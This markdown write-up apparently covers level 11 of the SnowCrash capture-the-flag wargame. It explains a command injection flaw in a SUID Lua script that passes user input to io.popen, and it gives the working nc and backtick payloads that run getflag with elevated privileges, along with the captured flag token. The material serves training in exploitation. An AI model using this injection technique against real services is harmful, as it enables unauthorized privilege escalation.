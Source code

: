 # Level 11: Script Privilege Escalation

### Goal
Exploit a vulnerability in a Lua script that runs with elevated privileges (flag11 user permissions) through code injection in a subprocess call.

## Steps

### I- Initial Analysis
In the home directory, there's a Lua script `level11.lua` with SUID/GUID bits set, meaning it runs with **flag11**'s permissions regardless of who executes it.

1. **File Examination:**
	```bash
	level11@SnowCrash:~$ ls -l
	total 4
	-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
	```

2. **Script Content:**
	```lua
	#!/usr/bin/env lua
	local socket = require("socket")
	local server = assert(socket.bind("127.0.0.1", 5151))

	function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	data = prog:read("*all")
	prog:close()

	data = string.sub(data, 1, 40)

	return data
	end

	while 1 do
	local client = server:accept()
	client:send("Password: ")
	client:settimeout(60)
	local l, err = client:receive()
	if not err then
		print("trying " .. l)
		local h = hash(l)

		if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
			client:send("Erf nope..\n");
		else
			client:send("Gz you dumb*\n")
		end

	end

	client:close()
	end
	```

### II - Vulnerability Analysis
1. The script runs a server on port `5151`
2. It accepts connections and prompts for a password
3. The vulnerability lies in the `hash()` function:
	```bash
	function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	```
   - It uses `io.popen()` to execute a shell command.  
   *`io.popen()` execute a command in a separate process and returns a file handle that you can use to read data from command's output.*
   - The `pass` input is directly injected into the command without sanitization
   - Command injection is possible through backticks or shell operators

### III - Exploitation Steps

1. **Verify Privilege Escalation:**
	```bash
	level11@SnowCrash:~$ nc 127.0.0.1 5151
	Password: `echo hello` > /tmp/test
	Erf nope..
	level11@SnowCrash:~$ cat /tmp/test
	hello
	```

2. **Retrieve the Flag:**
	```bash
	level11@SnowCrash:~$ nc 127.0.0.1 5151
	Password: `getflag` > /tmp/token
	Erf nope..
	level11@SnowCrash:~$ cat /tmp/token
	Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
	```

	*Note:*  
	*- `nc` (Netcat) command: allows us to connect to the Lua script's server running on port `5151`.*  
	*- `127.0.0.1`: is the loopback address, which refers to the **localhost**.*

